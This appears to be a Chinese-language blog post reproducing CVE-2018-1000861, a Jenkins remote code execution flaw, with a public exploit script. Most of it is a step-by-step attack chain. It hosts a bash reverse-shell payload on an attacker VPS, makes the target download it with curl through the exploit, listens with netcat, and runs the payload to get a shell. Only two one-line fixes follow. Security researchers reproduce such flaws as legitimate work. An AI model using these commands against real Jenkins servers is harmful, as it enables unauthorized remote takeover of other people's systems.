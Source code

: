 ```yaml
---
title: "记一次CVE-2018-1000861复现利用"
date: 2020-08-14 22:00:50
tags:
---
```

# 0x00 漏洞复现利用

此漏洞没有回显，直接利用orange的exp执行命令反弹shell

`https://github.com/orangetw/awesome-jenkins-rce-2019`

## step.1 在vps上使用Python启动一个临时web服务器
```
python -m SimpleHTTPServer
```
启动成功如下图所示：
![webServer_start](/assets/CVE-2018-1000861/webServer_start.png)

## step.2 在上面的web服务器内写入txt文本(要在启动web服务器的相同目录内)内容为：
```
bash -i >& /dev/tcp/{webServer_ip}/6666 0>&1
```
![write_bash](/assets/CVE-2018-1000861/write_bash.png)

## step.3 使用下载好的exp.py执行以下命令，下载step2在web服务器中写入的txt文件
```
python2 exp.py http://{靶机ip}:8080/ "curl -o /tmp/6666.sh http://{webServer_ip}:8000/007.txt"
```
![download](/assets/CVE-2018-1000861/download_txt.png)

## step.4 在Web服务器上再额外监听step2中写入的端口
```
nc -lvvp 6666
```
![nc](/assets/CVE-2018-1000861/nc.png)

## step.5 直接bash执行刚刚下载好的脚本
```
python2 exp.py http://{靶机ip}:8080/ "bash /tmp/6666.sh"
```
![exe_bash](/assets/CVE-2018-1000861/exe_bash.png)
## step.6 bingo~getshell~
![webshell](/assets/CVE-2018-1000861/webshell.png)

# 修复建议
1. 限源访问
2. 升级到最新版
